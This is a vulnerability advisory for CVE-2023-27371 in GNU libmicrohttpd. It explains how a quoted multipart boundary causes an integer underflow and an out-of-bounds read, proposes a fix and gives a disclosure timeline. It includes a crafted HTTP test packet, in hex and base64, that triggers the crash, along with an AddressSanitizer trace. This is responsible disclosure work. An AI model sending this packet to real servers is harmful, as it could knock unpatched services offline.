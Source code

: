 <h2><b><i>Summary</i></b></h2>

GNU libmicrohttpd version prior 0.9.75 version (included) is vulnerable to a remote DoS (Denial of Service) due to improper parsing of the multipart/form-data's `boundary` in MHD_create_post_processor() method.

Affected: libmicrohttpd 0.9.75 and older

<blockquote>
"GNU libmicrohttpd is a GNU package offering a C library that provides
a compact API and implementation of an HTTP 1.1 web server (HTTP 1.0
is also supported).  GNU libmicrohttpd only implements the HTTP 1.1
protocol.  The main application must still provide the application
logic to generate the content."
</blockquote>

(source: project's README.md)

-  [GNU libmicrohttpd's website](https://www.gnu.org/software/libmicrohttpd/)

- [0.9.76 release e-mail](https://lists.gnu.org/archive/html/libmicrohttpd/2023-02/msg00000.html)

- [The fix](https://git.gnunet.org/libmicrohttpd.git/commit/?id=6d6846e20bfdf4b3eb1b592c97520a532f724238)

CVE ID: [CVE-2023-27371](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27371)

CVSS (3.1): 5.9 (AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:H/E:U/RL:X/RC:X)

Discovered by:</br>
&ensp;hebi</br>
&ensp;Gynvael Coldwind</br>

Method of discovery:</br>
&ensp;Fuzzing

<h2><b><i>Vulnerability details</i></b></h2>

While fuzzing libmicrohttpd we've stumbled on a minor issue with boundary processing which – with some serious heap massaging – could lead to being able to crash MHD remotely.

The problem exists in `MHD_create_post_processor()` function here:

```
    blen = strlen (boundary);    // <-------- 1
    if ( (blen == 0) ||
         (blen * 2 + 2 > buffer_size) )
      return NULL;
    if ( (boundary[0] == '"') &&        // <-------- 2
         (boundary[blen - 1] == '"') )
    {
      /* remove enclosing quotes */
      ++boundary;
      blen -= 2;   // <-------- 3
    }
```

Assume the following boundary:
```
Content-Type:multipart/form-data; boundary="\0\0\0\0\0..."
```

Walking through the code we get:
  * Point 1: `blen = 1;` since for strlen boundary will be just `"` followed by null-bytes.
  * Point 2: both `boundary[0]` and `boundary[1 - 1]` are obviously `"`
  * Point 3: `blen -= 2` results in an unsigned integer underflow, i.e. 0xffffffffffffffff

Later in the `find_boundary()` function there's a `memcmp()` used to compare the potential boundary in the POST body with the previously found boundary:

```
  if ( (0 != memcmp ("--",
                     buf,
                     2)) ||
       (0 != memcmp (&buf[2],    // <--------- 4
                     boundary,
                     blen)))
  {
```

At Point 4 `blen` is equal to 0xffffffffffffffff, so if the `--` were at the end of the buffer (which is likely by zeroes which were in memory), we get a read buffer overrun.

As far as severity goes, we though about potential side-channel leaks here, but we came up with nothing. Furthermore, even trying to exploit this as a DoS with the standard GNU C library's malloc failed in our attempts (though we still can't rule out that it's possible).
However since MHD is used on embedded devices with their own malloc implementations, we decided to report this as a potential security issue directly to you.

At the end of the report we included a test HTTP packet (as hex dump and base64) and an AddressSanitizer report.

<h2><b><i>Proposed fix</i></b></h2>

A potential fix could be to check if `blen` is less than 2 inside that if at Point 2 above, and if so, just return `NULL`.

```
if (blen < 2){
  return NULL;
}
```

<h2><b><i>Timeline</i></b></h2>
<ul>
  <li>2023-02-13: Vulnerability discovered.</li>
  <li>2023-02-26: Vulnerability reported.</li>
  <li>2023-02-27: Vulnerability fixed, new release published</li>
  <li>2023-02-27: Details published (immediately due to triviality / low severity / being hard to exploit).</li>
  <li>2023-02-27: CVE requested.</li>
  <li>2023-02-28: CVE assigned.</li>
</ul>
<h2><b><i>Test packet:</i></b></h2>

```
00000000  50 4f 53 54 20 2f 20 48  54 54 50 2f 31 2e 31 0d  |POST / HTTP/1.1.|
00000010  0a 48 6f 73 74 3a 30 2e  30 2e 30 2e 30 0d 0a 43  |.Host:0.0.0.0..C|
00000020  6f 6e 74 65 6e 74 2d 54  79 70 65 3a 6d 75 6c 74  |ontent-Type:mult|
00000030  69 70 61 72 74 2f 66 6f  72 6d 2d 64 61 74 61 3b  |ipart/form-data;|
00000040  20 62 6f 75 6e 64 61 72  79 3d 22 00 41 22 0d 0a  | boundary=".A"..|
00000050  43 6f 6e 74 65 6e 74 2d  4c 65 6e 67 74 68 3a 34  |Content-Length:4|
00000060  0d 0a 0d 0a 2d 2d 00 41                           |....--.A|
00000068
```
Base64 encoded for convenience:
```
UE9TVCAvIEhUVFAvMS4xDQpIb3N0OjAuMC4wLjANCkNvbnRlbnQtVHlwZTptdWx0aXBhcnQvZm9y
bS1kYXRhOyBib3VuZGFyeT0iAEEiDQpDb250ZW50LUxlbmd0aDo0DQoNCi0tAEE=
```

<h2><b><i>AddressSanitizer report</i></b></h2>
Note: ASAN report is for a 32-bit version of libmicrohttpd, though it doesn't really matter.

```
==50113==ERROR: AddressSanitizer: negative-size-param: (size=-1)
    #0 0x56633acb in MemcmpInterceptorCommon(void*, int (*)(void const*, void const*, unsigned int), void const*, void const*, unsigned int) (/libmicrohttpd-0.9.75/simplepost+0x33acb)
    #1 0x56634170 in bcmp (/libmicrohttpd-0.9.75/simplepost+0x34170) 
    #2 0xf7ef1195 in find_boundary /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:934:14
    #3 0xf7eecea7 in post_process_multipart /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:1413:14
    #4 0xf7eecea7 in MHD_post_process /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:1632:12
    #5 0x566d929d in answer_to_connection /libmicrohttpd-0.9.75/../mhd_harness/simplepost.c:186:7
    #6 0xf7eb453a in process_request_body /libmicrohttpd-0.9.75/src/microhttpd/connection.c:3320:9
    #7 0xf7eb453a in MHD_connection_handle_idle /libmicrohttpd-0.9.75/src/microhttpd/connection.c:4596:9
    #8 0xf7ed9ff7 in call_handlers /libmicrohttpd-0.9.75/src/microhttpd/daemon.c:1221:11
    #9 0xf7ecce06 in MHD_epoll /libmicrohttpd-0.9.75/src/microhttpd/daemon.c:5145:5
    #10 0xf7ecfec3 in MHD_run_wait /libmicrohttpd-0.9.75/src/microhttpd/daemon.c:5277:11
    #11 0x566d902e in main /libmicrohttpd-0.9.75/../mhd_harness/simplepost.c:215:42
    #12 0xf7b4f518 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #13 0xf7b4f5f2 in __libc_start_main csu/../csu/libc-start.c:392:3
    #14 0x5661a4ca in _start (/libmicrohttpd-0.9.75/simplepost+0x1a4ca) 

0xf57039de is located 94 bytes inside of 609-byte region [0xf5703980,0xf5703be1)
allocated by thread T0 here:
    #0 0x5669be1c in __interceptor_calloc (/libmicrohttpd-0.9.75/simplepost+0x9be1c) 
    #1 0xf7eec197 in MHD_create_post_processor /libmicrohttpd-0.9.75/src/microhttpd/postprocessor.c:326:22
    #2 0x566d930b in answer_to_connection /libmicrohttpd-0.9.75/../mhd_harness/simplepost.c:156:9

SUMMARY: AddressSanitizer: negative-size-param (/libmicrohttpd-0.9.75/simplepost+0x33acb)  in MemcmpInterceptorCommon(void*, int (*)(void const*, void const*, unsigned int), void const*, void const*, unsigned int)
==50113==ABORTING
```
